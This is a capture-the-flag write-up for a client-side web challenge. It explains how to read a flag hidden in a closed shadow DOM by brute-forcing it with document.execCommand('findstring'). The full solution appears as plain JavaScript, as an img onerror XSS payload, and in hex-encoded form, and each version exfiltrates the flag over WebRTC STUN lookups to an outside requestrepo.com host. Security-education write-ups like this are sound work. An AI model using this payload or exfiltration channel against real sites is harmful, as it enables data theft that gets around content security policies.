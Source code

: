 # Baby Sandbox

This is an easy client-side challenge

## Overview

We're given a few files
 - `server.js`: Contains the server code. We can see that the server serves files with a strict CSP:
```js
app.use((req, res, next) => {
    res.setHeader("Content-Security-Policy", "default-src 'none'; frame-ancestors 'none'; base-uri 'none'; form-action 'none'; script-src 'self' 'unsafe-inline';");
    next()
})
```

 - `iframe.ejs`: A simple HTML file with an obvious HTML injection:
```js
      let d = document.createElement("div");
      d.innerHTML = "<%= payload %>";
      document.body.appendChild(d);
```
 - `index.ejs`: The content of `index.ejs` will be put inside an iframe 

 - `bot.js`: Contains the bot code. It's clear that the flag will be stored in local storage. We can supply a payload to the `visit` function, which will then be viewed by the bot. Note that the bot will sleep for a short period after viewing our payload.

Finally, before inserting our payload, the flag will be placed inside a closed [shadow DOM](https://developer.mozilla.org/en-US/docs/Web/API/Web_components/Using_shadow_DOM), making it inaccessible from JavaScript.

To bypass this restriction, we can use a deprecated feature: [document.execCommand](https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand)

Specifically, we can use a lesser-known command: `findstring`:
 - `document.execCommand("findstring", false, <substring>)`, returns true if the substring is found, and false otherwise. I found it [here](https://chromium.googlesource.com/chromium/src/+/refs/tags/131.0.6778.244/third_party/blink/renderer/core/editing/commands/editor_command_names.h)


After brute-forcing the flag, we can split it into chunks and exfiltrate it using WebRTC or any other method that does not violate the CSP. 

Note: since our payload will be escaped, we had to encode it using the following function
```js
def encode(payload):
    result = ""
    for c in payload:
        result += "\\x" + hex(ord(c))[2:].zfill(2)
    return result
```

## Final Exploit
```js
(() => {
    function toHex(str) {
        let hex = '';
        for(let i = 0; i < str.length; i++) {
            hex += str.charCodeAt(i).toString(16);
        }
        return hex;
    }
    
    let flag = "TRX{";
    let charset = "abcdefghijklmnopqrstuvwxyz0123456789_{}";
    for(let i = 0; i < 128; i++){
        for(let c in charset){
            res = document.execCommand("findstring", false, flag+charset[c]);
            if(res){
                flag += charset[c];
                break;
            }
        }
    }
    
    let chunkSize = 4;
    for (let i = 0; i < flag.length; i += chunkSize) {
        let chunk = flag.substring(i, i + chunkSize);
        console.log(chunk);
        let pc = new RTCPeerConnection({"iceServers":[{"urls":["stun:" + toHex(chunk) + "." + i + ".az5f3of1.requestrepo.com"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o => pc.setLocalDescription(o)).catch(e => console.error(e));
    }
    })();
```

You can then compress this and put it inside an `img` tag:
```html
<img src="#" onerror='(()=>{let o="TRX{";var r="abcdefghijklmnopqrstuvwxyz0123456789_{}";for(let e=0;e<128;e++)for(var t in r)res=document.execCommand("findstring",!1,o+r[t]),res&&(o+=r[t]);for(let e=0;e<o.length;e+=4){var n=o.substring(e,e+4);console.log(n);let r=new RTCPeerConnection({iceServers:[{urls:["stun:"+function(r){let o="";for(let e=0;e<r.length;e++)o+=r.charCodeAt(e).toString(16);return o}(n)+"."+e+".az5f3of1.requestrepo.com"]}]});r.createOffer({offerToReceiveAudio:1}).then(e=>r.setLocalDescription(e)).catch(e=>console.error(e))}})();'>
```

Encoded payload:
```js
\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x22\x23\x22\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x27\x28\x28\x29\x3d\x3e\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x54\x52\x58\x7b\x22\x3b\x76\x61\x72\x20\x72\x3d\x22\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x5f\x7b\x7d\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x31\x32\x38\x3b\x65\x2b\x2b\x29\x66\x6f\x72\x28\x76\x61\x72\x20\x74\x20\x69\x6e\x20\x72\x29\x72\x65\x73\x3d\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x65\x78\x65\x63\x43\x6f\x6d\x6d\x61\x6e\x64\x28\x22\x66\x69\x6e\x64\x73\x74\x72\x69\x6e\x67\x22\x2c\x21\x31\x2c\x6f\x2b\x72\x5b\x74\x5d\x29\x2c\x72\x65\x73\x26\x26\x28\x6f\x2b\x3d\x72\x5b\x74\x5d\x29\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x6f\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x3d\x34\x29\x7b\x76\x61\x72\x20\x6e\x3d\x6f\x2e\x73\x75\x62\x73\x74\x72\x69\x6e\x67\x28\x65\x2c\x65\x2b\x34\x29\x3b\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x6c\x6f\x67\x28\x6e\x29\x3b\x6c\x65\x74\x20\x72\x3d\x6e\x65\x77\x20\x52\x54\x43\x50\x65\x65\x72\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x28\x7b\x69\x63\x65\x53\x65\x72\x76\x65\x72\x73\x3a\x5b\x7b\x75\x72\x6c\x73\x3a\x5b\x22\x73\x74\x75\x6e\x3a\x22\x2b\x66\x75\x6e\x63\x74\x69\x6f\x6e\x28\x72\x29\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x72\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x2b\x29\x6f\x2b\x3d\x72\x2e\x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74\x28\x65\x29\x2e\x74\x6f\x53\x74\x72\x69\x6e\x67\x28\x31\x36\x29\x3b\x72\x65\x74\x75\x72\x6e\x20\x6f\x7d\x28\x6e\x29\x2b\x22\x2e\x22\x2b\x65\x2b\x22\x2e\x61\x7a\x35\x66\x33\x6f\x66\x31\x2e\x72\x65\x71\x75\x65\x73\x74\x72\x65\x70\x6f\x2e\x63\x6f\x6d\x22\x5d\x7d\x5d\x7d\x29\x3b\x72\x2e\x63\x72\x65\x61\x74\x65\x4f\x66\x66\x65\x72\x28\x7b\x6f\x66\x66\x65\x72\x54\x6f\x52\x65\x63\x65\x69\x76\x65\x41\x75\x64\x69\x6f\x3a\x31\x7d\x29\x2e\x74\x68\x65\x6e\x28\x65\x3d\x3e\x72\x2e\x73\x65\x74\x4c\x6f\x63\x61\x6c\x44\x65\x73\x63\x72\x69\x70\x74\x69\x6f\x6e\x28\x65\x29\x29\x2e\x63\x61\x74\x63\x68\x28\x65\x3d\x3e\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x65\x72\x72\x6f\x72\x28\x65\x29\x29\x7d\x7d\x29\x28\x29\x3b\x27\x3e
```
